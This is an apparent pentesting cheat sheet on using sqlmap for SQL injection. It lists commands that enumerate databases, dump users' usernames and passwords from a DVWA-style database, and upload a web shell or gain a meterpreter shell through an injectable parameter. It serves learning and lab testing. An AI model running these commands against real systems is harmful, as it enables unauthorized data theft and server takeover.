

repository: amandaguglieri/hackinglife · page: sqlmap/index.html · generator: mkdocs

---
title: sqlmap - A tool for testing SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting 
---
# sqlmap - A tool for testing SQL injection

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.


```
# List supported SQL Injection Types
sqlmap -hh
```


## GET parameter

```bash
sqlmap -u ‘http://victim.site/view.php?id=112’ -p id --technique=U -parse-errors
# -u / --url: to indicate the target
# -p: to indicate an injectable parameter 
# --technique=U  //to indicate a UNION based SQL injection technique // E: error based  // 
# -b / --banner: banner of the database
# --tor: to use a proxy to connect to the target URL
# -v3: to see the payloads that sqlmap is using
# --flush-session: to refresh sessions
# --tamper: default tampers are in /usr/share/sqlmap/tamper
# --parse-errors: To parse the DBMS errors (if any) and displays them as part of the program run
# --current-user: It returns the current user in the database
```

## POST parameter

```bash
sqlmap -u <URL> --data=<POST string> -p parameter [options]
```

A nice trick here is utilizing Copy as cURL feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools. By pasting the clipboard content (Ctrl-V) into the command line, and changing the original command curl to sqlmap, we are able to use SQLMap with the identical curl command.


## PUT method

Also, if we wanted to specify an alternative HTTP method, other than GET and POST (e.g., PUT), we can utilize the option --method, as follows:

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```


## Using -r file

Capture the request with burpsuite and save it to a file.

```bash
# dump all
sqlmap -r nameoffiletoinject --dump-all --exclude-sysdbs

# Get all databases
sqlmap -r nameoffiletoinject --method POST --data "parameter=lala" -p parameter --dbs    

# Get all tables 
sqlmap -r nameoffiletoinject --tables

# Get all columns of a given database dwva
sqlmap -r nameoffiletoinject --current-db dwva -columns

# Get all tables of a given database, for example dwva
sqlmap -r nameoffiletoinject -D dwva --tables

# Get all columns of a given table in a given database
sqlmap -r nameoffiletoinject -D dwva -T users --columns

# Dump users table
sqlmap -r nameoffiletoinject -D dwva -T users --dump

# To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the --start and --stop options (e.g., start from 2nd up to 3rd entry), as follows:
sqlmap -r nameoffiletoinject --dump -T users -D dwva --start=2 --stop=3

# Conditional Enumeration: column name starting with f.
sqlmap -r nameoffiletoinject --dump -T users -D testdb --where="name LIKE 'f%'"

# Return the row of the user with the name Kimberly
sqlmap -r nameoffiletoinject --dump --columns --where="name LIKE 'Kimberly%'" --batch

# Example: Search the name of column containing in the name the string style
sqlmap -r nameoffiletoinject --search -C style --batch

# Get columns username and password of table users from table dwva
sqlmap -r nameoffiletoinject -D dwva -T users -C username,password --dump

# Automatically attempt to upload a web shell using the vulnerable parameter and execute it
sqlmap -r nameoffiletoinject -p vuln-param -os-shell 

# Alternatively use the os-pwn option to gain a shell using meterpreter or vnc 
sqlmap -r nameoffiletoinject -p vuln-param -os-pwn 
```

>Tip: to indicate  within the saved request file which parameter we want to inject, use an asterisk (`*`), such as '/?id=*'.
